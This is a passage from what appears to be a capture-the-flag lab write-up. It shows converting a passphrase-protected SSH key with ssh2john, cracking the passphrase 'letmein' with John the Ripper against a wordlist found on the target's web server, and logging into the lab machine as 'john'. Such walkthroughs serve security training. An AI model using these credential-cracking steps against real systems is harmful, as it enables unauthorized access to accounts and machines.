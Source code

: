Making a recap of what do we have, we have a potential user: `john`, a potential password list: `dict.lst` and an `id-rsa`.

Let's try to log in as `john` with the `id-rsa`.

```bash
❯ ssh john@10.10.202.31 -i id-rsa
Enter passphrase for key 'id-rsa':
```

But the `id-rsa` key is protected by a passphrase, so let's try to crack the `id-rsa` with `johntheripper`.

Firstly we have to convert the `id-rsa` to a `john` format.

```bash
❯ ssh2john id-rsa > hash
```

Then we can crack the passphrase using the dictionary we get from the web server.

```bash
❯ john --wordlist=dict.lst hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (id-rsa)     
1g 0:00:00:00 DONE (2025-01-12 06:12) 25.00g/s 5550p/s 5550c/s 5550C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

After completing we found that the passphrase is `letmein`, so let's now login via SSH.

```bash
❯ ssh john@10.10.202.31 -i id-rsa
Enter passphrase for key 'id-rsa': letmein
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jan 12 05:16:05 UTC 2025

  System load:  0.0               Processes:           98
  Usage of /:   41.1% of 9.78GB   Users logged in:     0
  Memory usage: 16%               IP address for eth0: 10.10.202.31
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```

---